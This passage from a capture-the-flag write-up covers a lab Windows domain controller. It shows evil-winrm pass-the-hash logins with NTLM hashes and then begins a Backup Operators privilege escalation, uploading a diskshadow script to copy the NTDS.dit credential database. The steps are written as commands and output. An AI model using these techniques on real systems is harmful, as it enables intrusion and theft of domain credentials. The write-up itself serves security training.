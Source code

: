 ```
snowscan@kali:~$ evil-winrm -u administrator -H 7f1e4ff8c6a8e6b6fcae2d9c0572cd62 -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

But the svc_backup credentials hasn't been changed and we can connect with the NTLM hash:

```
snowscan@kali:~$ evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents>
```

## Privilege escalation to Administrator - Method #1

The user **svc_backup** is a member of the **Backup Operators** group as shown by the `net users svc_backup` output.

```
Local Group Memberships      *Backup Operators     *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

Backup operators are dangerous because they can create a disk shadow copy and access files in-use by the system. The plan here is to grab a copy of the NTDS.dit file which contains all the Active Directory credentials. For some reason you need an extra space at the end of each line otherwise the diskshadow strips off a character and the command becomes invalid.

```
*Evil-WinRM* PS C:\temp> upload pwn.txt
Info: Uploading pwn.txt to C:\temp\pwn.txt

                                                             
Data: 116 bytes of 116 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\temp> type pwn.txt
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:

```
